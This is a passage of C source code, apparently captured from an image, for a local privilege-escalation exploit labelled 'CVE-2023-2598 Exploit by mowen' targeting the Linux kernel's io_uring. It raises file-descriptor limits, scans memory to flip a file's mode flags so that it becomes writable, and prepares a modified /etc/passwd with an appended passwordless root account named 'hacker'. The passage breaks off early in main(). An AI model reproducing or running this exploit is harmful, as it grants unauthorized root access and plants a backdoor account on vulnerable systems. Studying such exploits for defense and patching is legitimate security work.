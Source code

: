 ```
void binary_dump(char *desc, void *addr, int len);
struct __attribute__((aligned(0x100))) fake_filp{
    char pad[20];
    uint32_t f_mode;
    char padding[];
};

void prep_rlimit(int *nr_files){
    struct rlimit max_file;

    getrlimit(RLIMIT_NOFILE,&max_file);
    logu("rlim_cur -> %d rlim_max -> %d",max_file.rlim_cur,max_file.rlim_max);
    max_file.rlim_cur=max_file.rlim_max;
    setrlimit(RLIMIT_NOFILE,&max_file);

    int limit = max_file.rlim_max/4;
    *nr_files = limit/2;
    logu("nr_files -> %d",*nr_files);
}

int change_mode(void* addr,uint64_t size){
    int  ret = -1;
    uint64_t* tmp = (uint64_t* )addr;
    for (size_t i = 0; i < size/8; i++)
    {
        // if( tmp[i] != 0)
        //     logi(" addr: %p offset: 0x%llx -> %p",addr+i,i,tmp[i]);
        if(tmp[i]==0x494a801d00000000){
            // logw("successful!! addr: %p offset: 0x%llx -> %p",addr+i*8,i*8,tmp[i]);
            tmp[i] = 0x494f801f00000000;
            ret = 1;
            break;
        }     
    }
    return ret;  
}
int main(void){
    int nr_files,ret;
    struct io_uring ring;
    int nr_bufs = 1000;
    void** bufs;
    struct io_uring_buf_reg reg;
    int* fds;
    static struct stat status;
    int passwd_size,passwd_fd;
    char* hacker_buf;
    int hacker_len;
    uint64_t nr_pages,entries,mmap_size,mmap_off;
    RED;puts("[*] CVE-2023-2598 Exploit by mowen");CLOSE;

    stat("/etc/passwd",&status);
    passwd_size=status.st_size;
    logi("passwd_size -> %d",passwd_size);

    hacker_buf =(char*) malloc(passwd_size*2);
    passwd_fd = open("/etc/passwd",O_RDONLY);
    read(passwd_fd,hacker_buf,passwd_size);
    strcat(hacker_buf,"hacker::0:0:root:/root:/bin/sh\n");
    hacker_len =strlen(hacker_buf);

    bind_cpu(0);
// 1、解除当前进程限制
    prep_rlimit(&nr_files);
```